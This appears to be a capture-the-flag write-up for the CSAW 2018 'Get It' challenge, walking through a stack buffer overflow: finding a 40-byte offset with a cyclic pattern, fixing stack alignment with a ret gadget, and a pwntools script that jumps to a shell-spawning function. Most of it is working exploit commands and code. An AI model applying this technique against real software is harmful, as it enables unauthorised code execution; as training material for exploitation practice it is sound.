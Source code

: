 
# Get It

`give_shell()` function at `0x4005b6` that spawns a bash shell.

```c
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

Generate a cyclic pattern and pass it as input to clobber the return address.

```
gdb ./get_it

pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

pwndbg> r a
Starting program: /home/wither/NOTES/CSAW/2018/Get-It/get_it a
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Do you gets it??
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...
 ► 0x4005f7 <main+48>    ret                                <0x6161616161616166>
...
```

Look up the pattern `0x6161616161616166` to find the offset of **40** bytes.

```
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)

Found at offset 40
```

Using a padding of **40** bytes + the address of the `/bin/bash` call in the `give_shell()` function at `0x0x4005b6` doesn't work, because $rsp is not aligned to **16 bytes**.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x4005b6))')
...
 ► 0x7ffff7c5843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fffffffd968] not aligned to 16 bytes>
...
```

Use ropper to find the address of a `ret` gadget at `0x400451`.

```shell
ropper --file get_it --search "ret"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: get_it
0x0000000000400451: ret;

```

Add it in front of the payload to **pop** the misaligned bytes, and return to the `system` function that gives us a shell. 

Note: you need something at the end like the q `))')q` for the `/bin/bash` pipe to stay open and accept a command.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x400451) + pwn.p64(0x4005b6))')q

Starting program: /usr/bin/bash < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x400451) + pwn.p64(0x4005b6))')q
/bin/bash: line 1: /dev/fd/63q: No such file or directory
During startup program exited with code 1.
pwndbg> Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
BrokenPipeError: [Errno 32] Broken pipe
ls
exploit.py  get_it  README.md

```

Automate this with Python and pwntools

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./get_it", checksec=False)
p = process()

payload = b"A"*40 + p64(0x400451) + p64(0x4005b6)

p.sendline(payload)
p.interactive()
```

And get a shell.

```shell
python3 exploit.py

Do you gets it??
$ ls
exploit.py  get_it  README.md
```